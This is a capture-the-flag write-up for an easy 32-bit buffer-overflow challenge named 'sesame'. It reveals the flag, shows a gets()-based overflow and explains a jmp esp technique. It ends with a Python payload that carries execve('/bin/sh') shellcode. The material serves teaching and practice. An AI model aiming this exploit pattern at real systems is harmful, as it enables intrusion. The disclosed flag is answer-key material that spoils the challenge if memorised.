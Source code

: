 # Challenge

**Name:** sesame

**Category:** pwn

**Difficulty:** Easy  

**Author:** mowemcfc  

**Flag:** ISS{0p3n_5354m3!!1!}  

## Description

Just a simple buffer overflow, no frills, tricks or surprises. We promise!!!

All you need is a buffer offset (pwntools cyclic \<size\>), a `jmp esp` ROP gadget (ropper -f \<filename\>) and your shellcode!

## Solution

The binary has no protections enabled.

```shell
checksec challenge/sesame
[*] '/home/mowe/work/projects/ctf-2022-challenges/pwn/sesame/challenge/sesame'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Note the following decompiled code

```c
  char local_2c [36];
  printf(
        "Here\'s a shellcode! Do you know what to do with it?\n\\x31\\xc0\\x99\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80\nInput: "
        );
  gets(local_2c);
  return;
```

This is vulnerable to a stack-based buffer overflow, because we are reading an arbitrary number of bytes (via `gets`) into a 36 byte buffer.

In order to pop a shell, we need to do the following with our payload.

1. Overflow the char buffer and gain control of RIP (the return address of the function), with the intention of jumping into the provided shellcode that will execute `execve('/bin/sh')`.
2. Overwrite the original RIP with the address of a `JMP ESP` assembly gadget in our binary. Since ASLR is enabled, we cannot directly jump to the stack address of the shellcode (since we don't know it!), but the top of our input buffer is pointed to by the `ESP` register - thus we can jump to that and execute our shellcode.
3. Provide a assembly blob (aka shellcode) that, when executed, will open a shell over our socket connection.


Shellcode is provided, so the payload should be assembled as such:

```py
RIP_OFFSET = 44
JMPESP_ADDR = 0x080491e7
SHELLCODE = b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

payload = b""
payload += b"A" * RIP_OFFSET
payload += p32(JMPESP_ADDR)
payload += b"\x90" * 12
payload += SHELLCODE
```